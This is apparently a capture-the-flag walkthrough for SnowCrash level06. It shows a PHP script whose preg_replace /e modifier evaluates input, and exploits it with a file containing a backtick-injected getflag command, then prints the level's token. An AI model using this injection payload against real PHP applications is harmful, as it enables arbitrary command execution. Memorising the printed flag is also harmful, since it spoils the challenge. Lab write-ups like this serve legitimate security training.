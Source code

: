 
in this level we got 2 files
--------------------------------
level06@SnowCrash:~$ ls
level06  level06.php
--------------------------------

let's cat the level06.php
--------------------------------
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
--------------------------------

after aanalysing the code we got that it has 2 functions y, x

the x function has an evaluation regex on the form of [x (something)] then pass the
argument "something" to the functions y(). Then it replace "." with x and "@" with y

then it treat the argument as a php code and print the result

so we need to create a file and put a string that respects the regex evaluation 
so we use the vulnerability to pass getflag as argument

first let's create  the file and put the tring inside it:
--------------------------------
level06@SnowCrash:~$ echo "[x \${\`getflag\`}]" > /tmp/text
--------------------------------

now let's pass the file as argument to level06:
--------------------------------
/level06 /tmp/text
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

--------------------------------

Good! now let's get to the next level:
--------------------------------
level06@SnowCrash:~$ su level07
Password:
level07@SnowCrash:~$
--------------------------------
